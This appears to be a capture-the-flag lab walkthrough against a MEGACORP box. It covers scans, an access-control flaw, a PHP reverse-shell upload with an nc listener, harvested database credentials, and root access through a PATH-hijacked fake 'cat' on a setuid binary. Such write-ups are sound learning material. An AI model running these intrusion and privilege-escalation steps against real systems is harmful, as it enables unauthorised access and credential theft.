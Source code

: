# 10.10.10.28

---

# nmap -sS -sC -sV -O -oX ./nmap/init.xml 10.10.10.28

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

---

##  gobuster -w ./../SecLists-2021.2/Discovery/Web-Content/quickhits.txt -u 10.10.10.28 -q -r dir

```
//index.phps (Status: 403)
//server-status/ (Status: 403)
//uploads/ (Status: 403)
```

---

## Found exploit for OpenSSH <7.7 Username Enumeration

++ [Exploit-db](https://www.exploit-db.com/exploits/45233)

Python code is in `exploit_ssh_7_6.py`.

Code seems to be broken. Even after fixing parantesis problems.

---

## Used Burp to examine the site.

Packages reveal `10.10.10.28/cdn-cgi/login`.

Login site has Username and Password requirements.

Simply by tring:

Username: admin

Pass: MEGACORP_4dm1n!!

---

## Sublinks:

Clients link exposes:
```
Client ID	Name	Email
1	Tafcz	john@tafcz.co.uk
```

Account link exposes:
```
Access ID	Name	Email
34322	admin	admin@megacorp.com
```

Uploads page is locked behind super admin rights.

---

## Attacking with Burp repeater

`id=1` variable is exposed through the URL. We can enumerate this.

After using Burp to attack, the id for super admin gets exposed.

Super Admin ID: 30

---

## Accessing account page of Super Admin

There is no authorazitation gate. Modifiying the payload on Burp to match Super Admin's ID reveals their account page:
```
Access ID	Name	Email
86575	super admin	superadmin@megacorp.com
```

Super Admin Access ID: 86575

Role: super admin

---

## Get reverse shell inside the system

Reverse shell with PHP from ++ [here.](https://github.com/pentestmonkey/php-reverse-shell)

Saved in .reverse-shell.php

Needs IP and Port supplied.

We upload this file and modify the payload again.

---

## Finding where it ended up

Python program [dirsearch](https://github.com/maurosoria/dirsearch) helps out here.

---

## python3 dirsearch.py -u http://10.10.10.28 -e php

```
[02:57:11] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/
```

---

## curl http://10.10.10.28/uploads/reverse-shell.php

```
sudo nc -lvnp 443	//	To listen.
```

---

## After the reverse shell, we search for credentials.

Going back to the website's folders reveals `db.php`. Inside it are some credentials:
```
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

Username: robert

Pass: M3g4C0rpUs3r!

Using `id robert` reveals:
```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Using `su robert` and entering the pass enables us to take over `robert` user's identity.

---

## find / type f -group bugtracker 2>/dev/null

```
/usr/bin/bugtracker
```

---

## ls -la bugtracker

```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 bugtracker
```

It is owned by root. Let's run it.

---

## The reverse shell dropped, but we have credentials.

After `ssh robert@10.10.10.28`, we enter the same pass and we are in. This is officially.

---

## We use `strings` on bugtracker

```
...
cat /root/reports/
...
```

This is a relative path instead of absolute. We can abuse this.

---

## Creating a shell disguised as cat

```
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
```

---

## We run bugtracker once more and supply id=1 as the bug id.

This runs cat on the local working directory. It was cat in it and it is run by root priviliges. But cat is actually a shell and now we have privileged shell.

---

Last thing I have done is to remove false cat file and `tmp` from PATH. Now I can cat out root.txt and this is it.
